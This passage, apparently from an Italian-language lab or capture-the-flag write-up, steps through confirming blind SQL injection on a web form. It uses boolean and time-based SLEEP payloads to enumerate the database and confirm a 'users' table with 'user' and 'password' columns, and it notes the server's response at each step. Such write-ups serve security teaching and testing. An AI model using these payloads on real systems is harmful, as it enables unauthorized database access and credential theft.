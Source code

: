 → Risposta: `missing`

✅ Conferma di vulnerabilità a **Blind SQL Injection basata su booleani**.

---

### 3. Verifica Time-Based con SLEEP

- Payload:

```sql
1' AND SLEEP(5) -- -
```

→ Il server risponde dopo circa 5 secondi → `SLEEP()` eseguito correttamente.

---

### 4. Verifica dell'esistenza della tabella `users`

- Payload:

```sql
1' AND IF((SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database() AND table_name='user')>0, SLEEP(5), 0) #
```

→ Nessun ritardo → `user` **non esiste**

- Payload:

```sql
1' AND IF((SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database() AND table_name='users')>0, SLEEP(5), 0) #
```

→ Ritardo di 5 secondi → ✅ confermata l’esistenza della tabella `users`.

---

### 5. Verifica delle colonne

- Colonna `user`:

```sql
1' AND IF((SELECT COUNT(*) FROM information_schema.columns WHERE table_name='users' AND column_name='user')>0, SLEEP(5), 0) #
```

→ Ritardo confermato → ✅ esiste `user`

- Colonna `password`:

```sql
1' AND IF((SELECT COUNT(*) FROM information_schema.columns WHERE table_name='users' AND column_name='password')>0, SLEEP(5), 0) #
```

→ Ritardo confermato → ✅ esiste `password`

---
